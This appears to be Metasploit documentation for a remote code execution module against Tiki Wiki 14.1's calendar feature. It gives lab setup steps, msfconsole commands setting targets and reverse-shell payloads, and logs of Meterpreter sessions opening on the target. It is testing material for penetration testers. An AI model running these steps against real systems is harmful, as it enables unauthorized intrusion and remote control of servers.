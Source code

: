 ## Vulnerable Application

  * Official Source: [sourceforge](https://sourceforge.net/projects/tikiwiki/files/Tiki_14.x_Peony/14.1/)
  * Exploit-db: [edb](https://www.exploit-db.com/apps/2fa84367ba4f14afab9f51cd3e93606d-tiki-14.2.7z)
  * Archived Copy: [github](https://github.com/h00die/MSF-Testing-Scripts)

  **Of note, there is some discussion if 14.2 is vuln or not.**

  1. Exploit-DB says in the title (may be wrong) 14.2 is vuln.
  2. The linked app Exploit-DB has is 14.2.
  3. Its verified on Exploit-DB.

vs

  1. Manual print statement testing from the PoC on 14.2 doesn't seem to be vuln
  2. The [notice](https://tiki.org/article414-Important-Security-Fix-for-all-versions-of-Tiki) seems to say 14.2 is the update that fixes the problem

### Creating A Testing Environment

  1. Create a fresh Ubuntu 16.04 w/ a LAMP install
  2. `apt-get install php-xml`
  3. Normal php install at that point!
  4. After install, login as admin:admin
  5. Go to the Control Panels
  6. Click Features
  7. Enable Calendar under Main feature
  8. Click Apply

#### Permissions

  If you wish to enable the non-logged in user (anonymous) to view/exploit the calendar:

  1. Log in as admin
  2. From the top dropdown select permissions
  3. Check Anonymous near the top
  4. Click Assign

## Verification Steps

  1. Install the software as documented above
  2. Start msfconsole
  3. Do: `use exploit/linux/http/tiki_calendar_exec`
  4. Do: `set rhost 10.10.10.10`
  5. (optional, if not set, set username to empty) Do: `set PASSWORD admin`
  6. Do: `set payload php/bind_perl`
  7. Do: `set verbose true`
  8. Do: `check`

```
  [*] Attempting Login
  [+] Login Successful!
  [+] 10.10.10.10:80 The target is vulnerable.
```

  9. Do: `exploit`
  10. You should get a shell

```
  [*] Started reverse TCP handler on 10.10.10.10:4444 
  [*] Attempting Login
  [+] Login Successful!
  [*] Sending malicious calendar view packet
  [*] Sending stage (33721 bytes) 10.10.10.10.190
  [*] Meterpreter session 1 opened (10.10.10.10:4444 -> 192.168.2.190:48188) at 2016-06-19 08:50:44 -0400
```

## Options

  **PASSWORD**

  Password is set at first login. Default for admin is 'admin'.

## Scenarios

Example running against unauthenticated calendar v14.1

```
  msf > use exploit/linux/http/tiki_calendar_exec
  msf exploit(tiki_calendar_exec) > set rhost 192.168.2.190
  rhost => 192.168.2.190
  msf exploit(tiki_calendar_exec) > set targeturi /t14_1/
  targeturi => /t14_1/
  msf exploit(tiki_calendar_exec) > set payload php/meterpreter/reverse_tcp
  payload => php/meterpreter/reverse_tcp
  msf exploit(tiki_calendar_exec) > set lhost 192.168.2.229
  lhost => 192.168.2.229
  msf exploit(tiki_calendar_exec) > set verbose true
  verbose => true
  msf exploit(tiki_calendar_exec) > set username ''
  username => 
  msf exploit(tiki_calendar_exec) > exploit
  
  [*] Started reverse TCP handler on 192.168.2.229:4444 
  [*] Sending malicious calendar view packet
  [*] Sending stage (33721 bytes) to 192.168.2.190
  [*] Meterpreter session 1 opened (192.168.2.229:4444 -> 192.168.2.190:48172) at 2016-06-18 10:58:19 -0400
  
  meterpreter > sysinfo
  Computer    : tikiwiki
  OS          : Linux tikiwiki 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64
  Meterpreter : php/php
  meterpreter > 
```
